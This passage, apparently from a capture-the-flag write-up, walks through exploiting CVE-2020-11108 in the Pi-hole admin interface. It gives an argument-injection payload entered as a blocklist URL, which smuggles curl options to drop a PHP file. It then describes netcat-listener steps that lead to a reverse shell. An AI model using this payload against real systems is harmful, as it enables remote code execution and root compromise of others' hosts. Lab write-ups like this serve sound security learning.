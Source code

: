 > The following is a technical writeup for CVE-2020-11108, a vulnerability that allows an authenticated user of the Pi-hole web application to gain remote code execution and escalate privileges to root. This vulnerability affects Pi-hole v4.4 and below.

Using the information described in the blog post, I attempted to exploit the administrative interface to gain a privileged shell on the host. The first phase of the exploitation began with:

* Create a netcat listener locally.
* Navigating to Settings &rarr; Blocklists.
* Enter the following payload as a new URL.

```bat
http://10.10.14.21#" -o fun.php -d "
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img7.png"  style="width: 70%" />
</p>

Now that the URL was added to the blocklist, I needed to Click "Save and Update", and a few seconds later, I received a connection back to my netcat listener on port 80. Once the connection was established, I needed to do the following:

1. Provide a 200 response to the initial connection `HTTP/1.1 200 OK`
2. Hit enter twice, type some random words, hit enter twice, Ctrl+c
3. Restart the netcat listener and click update again
4. Enter reverse shell payload
